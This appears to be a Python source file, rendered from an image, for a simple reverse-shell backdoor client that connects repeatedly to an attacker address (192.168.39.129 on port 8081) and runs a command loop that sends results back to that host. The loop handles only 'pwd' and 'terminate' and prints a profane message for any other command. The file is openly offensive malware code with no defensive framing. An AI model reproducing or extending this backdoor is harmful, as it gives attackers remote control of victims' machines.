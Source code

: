 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    print("Reliably Recved")
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    print("Inside the shell functions")
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'terminate':
           connection_to_attacker.close()
           break
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        elif command == 'clear':
            pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            print("Trying to send connection to the attacker")
            connection_to_attacker.connect(("192.168.39.129", 8081))
            print("call To the shell function")
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
